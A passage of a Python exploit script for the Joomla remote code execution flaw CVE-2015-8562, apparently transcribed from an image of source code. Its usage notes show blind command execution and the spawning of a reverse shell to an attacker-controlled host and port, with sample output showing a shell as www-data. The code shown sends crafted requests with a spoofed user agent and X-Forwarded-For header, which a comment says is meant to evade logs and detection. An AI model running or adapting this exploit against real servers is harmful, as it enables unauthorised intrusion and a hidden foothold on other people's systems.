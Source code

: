     # Tested on: Debian 3.2.89-2 x86_64 GNU/Linux (Joomla! 3.2.1 Stable)
    # CVE : CVE-2015-8562

    '''
        Blind RCE:
        python joomla-cve-2015-8562.py -t http://192.168.0.1/ --cmd
        $ touch /tmp/test
        Spawn Reverse Shell:
        python joomla-cve-2015-8562.py -t http://192.168.0.1/ -l 192.168.0.2 -p 1337
        [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://192.168.0.1/
        [-] Uploading python reverse shell with LHOST:192.168.1.119 and LPORT:1337
        <Response [200]>
        [+] Spawning reverse shell....
        <Response [200]>
        Listening on [0.0.0.0] (family 0, port 1337)
        $ id
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
    '''

    import requests
    import subprocess
    import argparse
    import sys
    import base64
    import string
    import random
    import time
    import urllib3

    def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
        return str(''.join(random.choice(chars) for _ in range(size)))

    def get_url(url, user_agent, ua_method, proxyDict):
        if ua_method == True :
            # Defaul PoC
            headers = {
            'User-Agent': user_agent
            }
        else:
            # Firefox user_agent and x-forwarded-for method to evade log and lower detection
            headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
            'X-Forwarded-For': user_agent
            }
        try:
            cookies = requests.get(url,headers=headers, proxies=proxyDict, verify=False).cookies
            for _ in range(3):
                response = requests.get(url, headers=headers,cookies=cookies, proxies=proxyDict, verify=False)
            return response
        except requests.exceptions.MissingSchema:
            print "\033[1;31;10m\n[!] Missing http:// or https:// from Target URL\n\033[1;37;10m"
            sys.exit(1)
